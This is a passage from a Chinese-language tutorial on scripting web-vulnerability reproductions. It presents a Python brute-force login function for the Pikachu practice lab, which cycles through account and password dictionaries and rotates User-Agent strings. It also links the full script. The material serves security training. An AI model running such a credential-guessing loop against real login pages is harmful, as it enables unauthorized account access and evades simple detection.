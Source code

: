 ```python
    password_num = len(password_list)
    # 最大需要尝试的次数
    max_try = account_num * password_num
    # 已尝试的次数
    try_num = 0

    user_agent_list = getUserAgentList(browers_json_path)
    # user_agent_list 长度
    user_agent_num = len(user_agent_list)

    # 遍历账号密码列表
    for account in account_list:
        for password in password_list:
            # 编码 password 中的 & 符号(使用 urlencode 会将 & 符号编码为 %26)
            password = password.replace("&", "%26")
            # 以 try_num % user_agent_num 为索引取 user_agent_list 中的 user_agent
            user_agent = user_agent_list[try_num % user_agent_num]
            # 发送请求并返回响应结果
            response = post_request(
                socket=socket, url_path=url_path,
                user_gent=user_agent,
                username=account, password=password,
                prefix=prefix, suffix=suffix
            )
            # 判断是否登录成功
            if fail_keyword not in response:
                print(f'\n当前响应结果为: {response}')
                return f"login success! username: {account}, password: {password}"
            else:
                try_num += 1
                print(f"\r进度:{try_num}/{max_try}", end="")
                time_sleep(sleep_second)
    return "破解失败, 可能是字典中无相应账号密码或者操作被限制"
```

---

至此, 暴力破解脚本已经完全函数化了, 只会需要的就是写个 `main` 函数, 然后把具体的参数传入即可

完整的脚本文件可参阅 [pikachu_bruteForce.py](https://github.com/Ayusummer/DailyNotes/blob/main/docs/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/Web%E5%AE%89%E5%85%A8/Web%E6%BC%8F%E6%B4%9E%E9%80%9A%E7%94%A8%E5%9E%8BPython%E5%A4%8D%E7%8E%B0%E8%84%9A%E6%9C%AC%E7%BC%96%E5%86%99%E6%8C%87%E5%8D%97/pikachu_BruteForce.py)

![image-20221112213146767](http://cdn.ayusummer233.top/img/202211122131789.png)

---

至此, 全部的流程就完成了

---



